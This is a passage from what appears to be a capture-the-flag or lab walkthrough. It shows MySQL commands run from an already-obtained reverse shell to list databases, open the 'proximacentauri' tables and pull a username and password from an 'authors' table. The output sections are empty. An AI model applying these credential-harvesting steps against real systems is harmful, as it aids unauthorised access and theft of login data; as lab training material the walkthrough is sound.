




4.5 Connect to Mysql
1. Enumerate Mysql database. (Password=passw0rd)On the reverse shell run the followiong command.
mysql -u alfauser -p
Output:

2. Show the databases.
MariaDB [(none)]> show databases;
Output:

3. Show tables from “proximacentauri” table.
MariaDB [(none)]> use proximacentauri;
MariaDB [proximacentauri]> show tables;
MariaDB [proximacentauri]> show tables;
Output:

4. Show data from “authors” table.
Output:

You got a name (proxima) and password (alfacentauri123).